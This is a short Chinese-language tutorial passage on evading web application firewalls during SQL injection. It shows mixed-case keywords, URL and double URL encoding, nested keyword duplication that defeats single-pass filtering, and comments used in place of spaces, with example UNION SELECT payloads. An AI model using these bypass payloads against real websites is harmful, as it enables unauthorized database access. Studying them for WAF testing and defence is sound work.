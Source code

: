 ## 大小写混合
在规则匹配时只针对了特定大写或特定小写的情况，在实战中可以通过混合大 小写的方式进行绕过 （现在几乎没有这样的情况）， 如下所示.
```sql
uNiOn SeLect 1,2,3,4,5
```
## URL编码方式
极少部分的WAF不会对普通字符进行URL解码
```sql
union select 1,2,3,4,5
```
%75%6E%69%6F%6E%20%73%65%6C%65%63%74%20%31%2C%32%2C%33%2C%34%2C%35
还有一种情况就是URL二次编码， WAF一般只进行一次解码， 而如果目标 Web系统的代码中进行了额外的URL解码，即可进行绕过。
## 替换关键字
WAF采用替换或者删除select/union这类敏感关键词的时候，如果只匹配一次则很容易进行绕过。

```sql
union select 1,2,3,4,5
```
转换成
```sql
ununionion seselectlect 1,2,3,4,5
```
这样子正是因为被替换掉后，才会真正的执行.
## 使用注释
使用注释替代空格
<img src="../pictures/mudfgj5h6mr.png" width="600" />


